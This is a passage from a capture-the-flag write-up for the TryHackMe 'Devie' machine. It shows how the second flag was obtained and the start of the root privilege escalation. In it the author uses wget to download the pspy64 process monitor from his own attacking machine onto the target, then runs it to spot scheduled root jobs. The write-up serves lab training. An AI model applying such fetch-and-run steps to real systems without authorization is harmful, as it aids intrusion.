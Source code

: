 We can get the second flag in `/home/gordon/flag2.txt` :  
```
gordon@devie:/home/bruce$ cd
gordon@devie:~$ ls
backups  flag2.txt  reports
gordon@devie:~$ cat flag2.txt 
THM{**************}
```

## Privilege escalation (root)

There is a `backups` directory in our home directory. Let's see what's inside :  
```
gordon@devie:~/backups$ ls
report1  report2  report3
gordon@devie:~/backups$
```

There is 3 files. Their content is useless. There is also a `reports` directory in our home directory :  
```
gordon@devie:~/reports$ ls
report1  report2  report3
```

There is the same files in the two directories. Maybe there is a backup script that run every time on the system ? We can find this out by using `pspy64` (I downloaded it to the target from a python web server on my virtual machine) :  
```
gordon@devie:~/reports$ cd /tmp
gordon@devie:/tmp$ wget http://10.14.32.60:8080/pspy64
--2023-04-09 17:32:19--  http://10.14.32.60:8080/pspy64
Connecting to 10.14.32.60:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                        100%[================================================>]   2.94M  2.22MB/s    in 1.3s    

2023-04-09 17:32:20 (2.22 MB/s) - ‘pspy64’ saved [3078592/3078592]

gordon@devie:/tmp$ chmod +x pspy64 
gordon@devie:/tmp$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/04/09 17:32:32 CMD: UID=0    PID=956    | 
2023/04/09 17:32:32 CMD: UID=0    PID=94     | 
2023/04/09 17:32:32 CMD: UID=0    PID=93     | 
```